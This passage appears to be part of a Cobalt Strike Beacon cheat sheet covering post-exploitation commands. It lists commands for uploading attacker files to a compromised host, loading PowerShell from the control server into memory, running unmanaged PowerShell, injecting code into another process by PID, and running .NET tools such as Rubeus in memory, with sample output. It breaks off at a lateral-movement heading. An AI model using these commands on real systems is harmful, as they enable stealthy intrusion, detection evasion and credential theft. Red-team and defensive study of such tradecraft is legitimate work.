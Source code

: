 ```powershell

# Upload a file from the attacker to the current Beacon host
beacon > upload [/path/to/file]
```

## Powershell and .NET

### Powershell commands

```powershell
# Import a Powershell .ps1 script from the control server and save it in memory in Beacon
beacon > powershell-import [/path/to/script.ps1]

# Setup a local TCP server bound to localhost and download the script imported from above using powershell.exe. Then the specified function and any arguments are executed and output is returned.
beacon > powershell [commandlet][arguments]

# Launch the given function using Unmanaged Powershell, which does not start powershell.exe. The program used is set by spawnto
beacon > powerpick [commandlet] [argument]

# Inject Unmanaged Powershell into a specific process and execute the specified command. This is useful for long-running Powershell jobs
beacon > psinject [pid][arch] [commandlet] [arguments]
```

### .NET remote execution

Run a local .NET executable as a Beacon post-exploitation job. 

Require:
* Binaries compiled with the "Any CPU" configuration.

```powershell
beacon > execute-assembly [/path/to/script.exe] [arguments]
beacon > execute-assembly /home/audit/Rubeus.exe
[*] Tasked beacon to run .NET program: Rubeus.exe
[+] host called home, sent: 318507 bytes
[+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 
```

## Lateral Movement
